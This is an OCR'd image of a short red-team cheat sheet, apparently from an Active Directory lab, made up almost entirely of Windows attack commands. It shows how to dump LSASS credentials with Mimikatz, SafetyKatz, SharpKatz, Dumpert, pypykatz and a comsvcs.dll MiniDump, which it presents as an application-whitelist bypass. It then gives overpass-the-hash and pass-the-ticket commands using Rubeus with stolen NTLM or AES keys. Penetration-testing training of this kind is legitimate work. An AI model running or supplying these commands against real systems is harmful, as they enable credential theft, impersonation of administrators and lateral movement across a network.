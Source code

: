 # Dump credentials on a local machine using Mimikatz.
Invoke-Mimikatz -Command '"sekurlsa::ekeys"'
# Using SafetyKatz (Minidump of lsass and PELoader to run Mimikatz)
SafetyKatz.exe "sekurlsa::ekeys"
# Dump credentials Using SharpKatz (C# port of some of Mimikatz functionality).
SharpKatz.exe --Command ekeys
# Dump credentials using Dumpert (Direct System Calls and API unhooking)
rundll32.exe C:\Dumpert\Outflank-Dumpert.dll,Dump

# Using pypykatz (Mimikatz functionality in Python)
pypykatz.exe live lsa
# Using comsvcs.dll (lol bin to bypass application white list)
tasklist /FI "IMAGENAME eq lsass.exe"
rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump
<lsass process ID> C:\Users\Public\lsass.dmp full


# Over Pass the hash (OPTH) generate tokens from hashes or keys. Needs elevation(Run as administrator)
Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:us.techcorp.local /aes256:<aes256key> /run:powershell.exe"'

SafetyKatz.exe "sekurlsa::pth /user:administrator /domain:us.techcorp.local /aes256:<aes256keys> /run:cmd.exe" "exit"
## The above commands starts a PowerShell session with a logon type 9 (same as runas /netonly).

#  Below doesn't need elevation ( This overwrites the current tickets)
Rubeus.exe asktgt /user:administrator /rc4:<ntlmhash> /ptt
#  Below command needs elevation ( This starts a new process and if you run whoami you will not see ur impersonated admin privs. Because the proccess starts with logon type 9 so new credentials are used when you access network resources !)
Rubeus.exe asktgt /user:administrator /aes256:<aes256keys> /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
